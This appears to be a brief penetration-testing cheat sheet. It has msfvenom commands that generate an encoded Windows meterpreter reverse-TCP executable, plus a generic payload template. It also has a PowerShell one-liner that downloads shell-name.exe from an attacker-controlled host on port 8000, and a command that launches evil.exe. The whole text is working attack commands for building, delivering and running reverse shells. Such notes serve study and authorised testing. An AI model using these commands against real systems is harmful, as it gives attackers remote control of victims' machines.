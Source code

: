 - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`
- `msfvenom -p <os>/<arch>/<type>/<connectivity> -f <filetype> -o <filename> LHOST=<listen-IP> LPORT=<listen-port>`

## Download payload

### windows
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

`start-process evil.exe`

### linux
wget
curl
scp
ftp